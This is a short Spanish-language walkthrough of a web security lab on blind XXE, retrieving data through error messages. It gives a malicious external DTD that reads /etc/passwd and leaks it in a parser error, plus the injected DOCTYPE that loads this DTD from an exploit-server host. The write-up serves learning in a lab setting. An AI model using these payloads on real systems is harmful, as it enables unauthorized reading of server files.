






# Lab: Exploiting blind XXE to retrieve data via error messages



al enviar la request e inyectando nuestro xml malicioso vemos que este nos da un mensaje de error.



Pero este hace una petición a nuestro servidor malicioso, en este caso burpsuite.



Para obtener el contenido del archivo `/etc/passwd` aprovechando el error que tenemos, podemos iniciar nuestro servidor `dtd` con el siguiente contenido:

```c
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```



Ahora, al enviar la solicitud a nuestro servidor con el contenido malicioso que trata de leer el archivo `/etc/passwd`.

```c
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2f009e03e4c21d8011935f0184001c.exploit-server.net/exploit""> %xxe;]>
```

podemos ver que funciona y obtenemos el contenido del archivo `/etc/passwd`



